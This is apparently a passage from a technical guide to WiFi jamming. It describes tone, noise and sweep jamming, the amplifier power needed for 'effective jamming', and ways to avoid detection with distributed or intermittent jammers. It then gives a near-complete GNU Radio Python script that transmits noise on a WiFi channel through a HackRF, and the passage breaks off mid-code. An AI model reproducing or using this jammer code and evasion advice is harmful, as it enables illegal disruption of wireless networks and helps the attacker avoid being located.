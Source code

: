    ```
   Packet Reception During Different Jamming Scenarios
   
   Normal:         [PKT1]   [PKT2]   [PKT3]   [PKT4]   [PKT5]
   
   Continuous:     [PKT-    ////////////////////////    -PKT5]
                    Jamming starts      Jamming ends
                    
   Selective:      [PKT1]   [////]   [PKT3]   [////]   [PKT5]
                           Targeted      Targeted
   ```

   - **Channel Jamming**: Broadcasting continuous signals on WiFi channels to prevent normal operation.
     * **Implementation Approaches**:
       * Tone Jamming: Single frequency transmission within the target channel
       * Noise Jamming: Wideband noise covering the entire channel
       * Sweep Jamming: Frequency sweep across the channel bandwidth
     
     * **Hardware Requirements**:
       * Transmitter capable of sustained output (heat dissipation is critical)
       * Linear amplifier to boost signal power (28-30 dBm typical for effective jamming)
       * Adequate power supply (battery-powered jammers have limited operation time)
     
     * **Detection Avoidance**:
       * Low-power distributed jammers are harder to locate than a single high-power source
       * Intermittent jamming patterns can evade automated detection systems
     
     * **Python example using GNU Radio for a simple jammer**:
     ```python
     #!/usr/bin/env python3
     from gnuradio import gr, analog, blocks
     from gnuradio.filter import firdes
     import osmosdr
     
     class WifiJammer(gr.top_block):
         def __init__(self, freq=2437e6, sample_rate=20e6, tx_gain=47):
             gr.top_block.__init__(self, "WiFi Channel Jammer")
             
             # Signal source - noise to jam channel
             self.source = analog.noise_source_c(analog.GR_GAUSSIAN, 1.0, 0)
             
             # Output to SDR
             self.sink = osmosdr.sink(args="hackrf=0")
             self.sink.set_sample_rate(sample_rate)
             self.sink.set_center_freq(freq)
             self.sink.set_gain(tx_gain)
             
             # Connect blocks
             self.connect(self.source, self.sink)
     
